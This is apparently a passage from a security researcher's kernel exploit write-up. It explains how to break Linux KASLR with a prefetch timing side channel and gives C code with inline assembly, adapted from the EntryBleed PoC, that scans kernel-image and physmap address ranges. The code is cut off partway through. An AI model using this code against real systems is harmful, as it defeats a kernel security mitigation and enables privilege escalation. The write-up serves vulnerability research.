 ## Breaking KASLR

So given that triggering the vulnerability will crash the system if the address pointed to by stack pointer is unmapped or gsbase is wrong, how can KASLR be broken independent of this vulnerability? the answer lies in the micro-architecture.

KASLR has been publicly broken for all Intel cpus since 2016. The techinque was discovered by Gruss et al. in 2016 and is referred to as a [Prefetch Attack](https://gruss.cc/files/prefetch.pdf) as it relies on the timing variance of the x86 `prefetch` instructions when executed against cached kernel address translations.

For a simple implementation of a prefetch attack I reached for the [entrybleed poc](https://www.willsroot.io/2022/12/entrybleed.html), which is just a specific use of a prefetch attack for breaking KASLR when KPTI is enabled but the same code works with KPTI disabled as well. This was enough to break KASLR of the kernel image, but I still needed to break physmap KASLR to be able to survive the use of percpu variables...

But that was simple enough, all I had to do was define some ranges and step sizes that work for physmap and add a flag to choose which randomization I want to break.

```c
// largely based on: https://www.willsroot.io/2022/12/entrybleed.html

#define KERNEL_LOWER_BOUND 0xffffffff80000000ull
#define KERNEL_UPPER_BOUND 0xffffffffc0000000ull

#define STEP_KERNEL 0x100000ull
#define SCAN_START_KERNEL KERNEL_LOWER_BOUND
#define SCAN_END_KERNEL KERNEL_UPPER_BOUND
#define ARR_SIZE_KERNEL (SCAN_END_KERNEL - SCAN_START_KERNEL) / STEP_KERNEL

#define PHYS_LOWER_BOUND 0xffff888000000000ull
#define PHYS_UPPER_BOUND 0xfffffe0000000000ull

#define STEP_PHYS 0x40000000ull
#define SCAN_START_PHYS PHYS_LOWER_BOUND
#define SCAN_END_PHYS PHYS_UPPER_BOUND
#define ARR_SIZE_PHYS (SCAN_END_PHYS - SCAN_START_PHYS) / STEP_PHYS

#define DUMMY_ITERATIONS 5
#define ITERATIONS 100

// https://www.willsroot.io/2022/12/entrybleed.html
uint64_t sidechannel(uint64_t addr) {
  uint64_t a, b, c, d;
  asm volatile (".intel_syntax noprefix;"
    "mfence;"
    "rdtscp;"
    "mov %0, rax;"
    "mov %1, rdx;"
    "xor rax, rax;"
    "lfence;"
    "prefetchnta qword ptr [%4];"
    "prefetcht2 qword ptr [%4];"
    "xor rax, rax;"
    "lfence;"
    "rdtscp;"
    "mov %2, rax;"
    "mov %3, rdx;"
    "mfence;"
    ".att_syntax;"
    : "=r" (a), "=r" (b), "=r" (c), "=r" (d)
    : "r" (addr)
    : "rax", "rbx", "rcx", "rdx");
  a = (b << 32) | a;
```